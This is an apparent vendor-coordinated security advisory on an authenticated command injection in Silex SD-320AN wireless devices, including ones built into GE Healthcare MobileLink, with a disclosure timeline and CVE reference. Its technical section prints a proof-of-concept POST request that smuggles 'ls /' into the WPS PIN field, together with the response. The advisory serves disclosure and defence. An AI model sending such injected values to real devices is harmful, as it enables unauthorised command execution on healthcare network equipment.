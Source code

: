 # ATREDIS-2018-0002: Silex GEH-SD-320AN/SD-320AN Authenticated Command Injection

## Vulnerability Type
OS Command Injection

## Vendors
* Silex Technology
* GE Healthcare

## Affected Products
* Silex GEH-SD-320AN (GEH-1.10 20B7.07.21)
* Silex SD-320AN (2.01)
* GE Healthcare MobileLink

## Summary
The Silex Technology GEH-SD-320AN and SD-320AN devices allow for
remote command injection by authenticated users via the web interface.
The GEH-SD- 320AN device is integrated into the GE Healthcare
MobileLink System.

## Mitigation
Silex Technology has provided an updated firmware image for the GE-SD-320AN
and SD-320AN devices that addresses the command injection vulnerability.

## Credit
This vulnerability was found by Eric Evenchick of Atredis Partners

## References
* https://nvd.nist.gov/vuln/detail/CVE-2018-6021
* https://github.com/atredispartners/advisories/blob/master/ATREDIS-2018-0002.md
* https://cwe.mitre.org/data/definitions/78.html

## Report Timeline
* 2018-01-08: Atredis Partners reaches out to Silex Technology and GE Healthcare
* 2018-01-23: Atredis Partners provides draft advisory to GE Healthcare Product Security
* 2018-02-08: Silex Technology indicates that a fix is being developed for this issue
* 2018-03-08: Atredis Partners receives pre-release firmware from Silex Technology and confirms that the issue is remediated based on the modified code
* 2018-03-20: Atredis Partners provides draft advisory to CERT/CC
* 2018-05-04: Atredis Partners plans to publish advisory ATREDIS-2018-0002

## Technical Details
To set the WPS pin code, the ssi CGI application calls system using
the WL_PINCODE_ENRO POST parameter as an argument. This parameter is
not sanitized, allowing for command injection. The output of the
injected command is provided in the response. Commands are executed as
the www-data user. The request below uses this vulnerability to
execute the command 'ls /':

```
POST /ssi/private/conf/aws_exec.html?page_url=index.htm&page_id=wless&page_sub=0&access=10dfba9807780980&language=1 HTTP/1.1
Host: device
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Connection: Close

WPS_METHOD_EXEC=pin&WPS_MODE_EXEC=wired&WL_PINCODE_ENRO=123;ls /;
```

The response from the server includes the output of the command:

```
HTTP/1.1 200 OK
Content-Length: 60
Connection: close
Date: Mon, 22 Jan 2018 16:45:03 GMT
Server: lighttpd/1.4.45-devel-59229e0

bin
dev
etc
home
lib
mnt
opt
proc
root
sbin
sys
tmp
usr
var
```